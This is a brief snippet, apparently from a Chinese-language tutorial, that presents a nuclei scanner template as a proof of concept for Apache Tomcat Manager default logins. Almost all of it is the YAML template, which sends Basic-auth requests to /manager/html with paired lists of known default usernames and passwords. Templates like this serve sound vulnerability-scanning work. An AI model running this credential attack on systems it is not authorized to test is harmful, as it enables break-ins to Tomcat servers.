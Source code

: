 **example 2 tomcat default login**

这是nuclei的tomcat默认漏洞登录poc

```
id: tomcat-default-login

info:
  name: ApahceTomcat Manager Default Login
  author: pdteam
  severity: high
  description: Apache Tomcat Manager default login credentials were discovered. This template checks for multiple variations.
  reference:
    - https://www.rapid7.com/db/vulnerabilities/apache-tomcat-default-ovwebusr-password/
  tags: tomcat,apache,default-login

requests:
  - raw:
      - |
        GET /manager/html HTTP/1.1
        Host: {{Hostname}}
        Authorization: Basic {{base64(username + ':' + password)}}
    payloads:
      username:
        - tomcat
        - admin
        - ovwebusr
        - j2deployer
        - cxsdk
        - ADMIN
        - xampp
        - tomcat
        - QCC
        - admin
        - root
        - role1
        - role
        - tomcat
        - admin
        - role1
        - both
        - admin

      password:
        - tomcat
        - admin
        - OvW*busr1
        - j2deployer
        - kdsxc
        - ADMIN
        - xampp
        - s3cret
        - QLogic66
        - tomcat
        - root
        - role1
        - changethis
        - changethis
        - j5Brn9
        - tomcat
        - tomcat
        - 123456

    attack: pitchfork  # Available options: sniper, pitchfork and clusterbomb
```